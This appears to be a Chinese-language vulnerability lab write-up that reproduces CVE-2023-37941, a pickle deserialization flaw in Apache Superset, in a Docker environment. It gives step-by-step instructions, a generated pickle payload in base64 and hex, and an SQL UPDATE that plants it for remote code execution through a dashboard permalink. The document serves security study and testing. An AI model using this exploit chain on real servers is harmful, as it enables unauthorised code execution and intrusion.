





# Apache Superset Python Pickle 反序列化导致远程代码执行（CVE-2023-37941）

Apache Superset是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset 1.5至2.1.0版本中存在一个Python Pickle反序列化漏洞（CVE-2023-37941）。该应用程序使用Python的`pickle`包来在元数据数据库中存储特定的配置数据。具有元数据数据库写入权限的已认证用户可以插入恶意的Pickle有效载荷，当应用程序反序列化这些数据时，会导致Superset服务器上的远程代码执行。

当与[CVE-2023-27524](../CVE-2023-27524)结合使用时，未经身份验证的攻击者可以先绕过身份验证，然后利用反序列化漏洞执行任意代码。

参考链接：

- <https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/>
- <https://github.com/Barroqueiro/CVE-2023-37941>
- <https://forum.butian.net/share/2458>

## 环境搭建

执行以下命令启动Apache Superset 2.0.1服务器：

```
docker compose up -d
```

服务启动后，可以通过`http://your-ip:8088`访问 Superset。默认登录凭据为admin/vulhub。

## 漏洞复现

执行以下步骤前，假设你已经通过[CVE-2023-27524](../CVE-2023-27524)漏洞生成有效的会话Cookie并登录到仪表板。

首先，创建一个新的"Dashboard"，并通过点击"Share"按钮生成一个永久链接，复制这个永久链接，稍后将会用到：



然后，按照以下步骤创建一个新的"Database"：

1. 导航到"Data"→"Databases"
2. 点击"+ Database"添加一个新的数据库连接
3. 输入数据库名称（比如"SQLite"）
4. 这里请填写：`sqlite+pysqlite:////app/superset_home/superset.db`
5. 展开"Advanced"并勾选"Expose in SQL Lab"和"Allow DML"
6. 保存数据库配置





然后，使用[CVE-2023-37941.py](CVE-2023-37941.py)生成恶意SQL命令（`-d`选项可以是`sqlite`、`mysql`或`postgres`，表示Superset服务器的数据库类型，在Vulhub中是`sqlite`）：

```shell
$ python3 CVE-2023-37941.py -c "touch /tmp/success" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvc3VjY2VzcwpwMQp0cDIKUnAzCi4=

[+] Hex encoded payload (for SQL):
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f737563636573730a70310a7470320a5270330a2e' where resource='dashboard_permalink';
```

> [!注意]
> 因为`pickle`反序列化的Payload在不同操作系统上是不同的，所以你需要在Linux或MacOS上生成Payload。

在SQL Lab中执行生成的SQL命令：



最后，通过访问前面复制的永久链接触发反序列化：



可见，`touch /tmp/success`命令已成功执行。
